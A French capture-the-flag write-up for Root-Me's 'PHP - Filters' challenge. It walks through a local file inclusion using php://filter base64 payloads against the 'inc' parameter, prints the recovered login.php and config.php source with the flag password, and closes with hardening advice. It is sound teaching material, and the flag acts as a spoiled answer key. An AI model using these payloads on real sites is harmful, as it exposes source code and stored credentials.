








# PHP - Filters

https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Filters

## Découverte de la vulnérabilité

### Reconnaissance initiale

En arrivant sur le challenge, on découvre une application web **FileManager v 0.01** avec deux pages accessibles :
- **home** (accueil.php)
- **login** (login.php)



**Observation cruciale** : L'URL utilise un paramètre GET `inc` pour inclure les fichiers :
```
challenge01.root-me.org/web-serveur/ch12/?inc=accueil.php
```


Cela indique une potentielle **Local File Inclusion (LFI)**.

### Identification de la vulnérabilité

La présence du paramètre `inc` suggère que l'application utilise une fonction PHP comme `include()` ou `require()` pour charger dynamiquement des pages.

**Test de la page login** :
```
?inc=login.php
```



On obtient un formulaire de connexion demandant un login et un mot de passe.

Pour vérifier que nous avons bien besoin d'identifiants valides, tentons une connexion avec des credentials aléatoires :



Le message "Error : no such user/password" confirme que nous devons trouver les vrais identifiants.

### Exploitation avec les PHP Filters

Les **PHP Filters** (wrappers) permettent de manipuler les flux de données en PHP. Ici, on va utiliser le wrapper `php://filter` pour récupérer le code source des fichiers au lieu de les exécuter.

## Exploitation

### Étape 1 : Récupération du code source de login.php

J'utilise le filter `base64-encode` pour obtenir le code source encodé :
```
?inc=php://filter/convert.base64-encode/resource=login.php
```



**Résultat** : Une chaîne base64 s'affiche dans la page.

Une fois décodée avec la commande `base64 -d` ou un outil en ligne comme CyberChef, on obtient :


```php
<?php
include("config.php");

if (isset($_POST["username"]) && isset($_POST["password"])) {
    if ($_POST["username"]==$username && $_POST["password"]==$password) {
        print("<h2>Welcome back !</h2>");
        print("To validate the challenge use this password<br/><br/>");
    } else {
        print("<h3>Error : no such user/password</h2><br />");
    }
}
?>
```

**Découverte importante** : Le fichier inclut `config.php` qui contient les variables `$username` et `$password` !

### Étape 2 : Récupération du fichier config.php

On applique la même technique sur le fichier `config.php` :
```
?inc=php://filter/convert.base64-encode/resource=config.php
```



Après décodage du base64, on obtient :


```php
<?php
$username="admin";
$password="DAPt9D2mky0APAF";
?>
```

**Bingo !** Nous avons trouvé les identifiants !


## Résultat

Le flag se trouve dans la variable `$password` du fichier `config.php` : **DAPt9D2mky0APAF**

En utilisant ces identifiants dans le formulaire de connexion, le message de validation s'affiche :



**Challenge validé !**

## Recommandations de sécurisation

### 1. Validation stricte des entrées (Whitelist)

Ne jamais faire confiance aux données utilisateur. Utiliser une whitelist :
```php
$allowed_pages = ['accueil', 'login'];
$page = $_GET['inc'] ?? 'accueil';

if (in_array($page, $allowed_pages)) {
    include($page . '.php');
} else {
    die('Page non autorisée');
}
```

### 2. Désactivation des wrappers dangereux

Dans `php.ini`, désactiver les wrappers non nécessaires :
```ini
allow_url_fopen = Off
allow_url_include = Off
```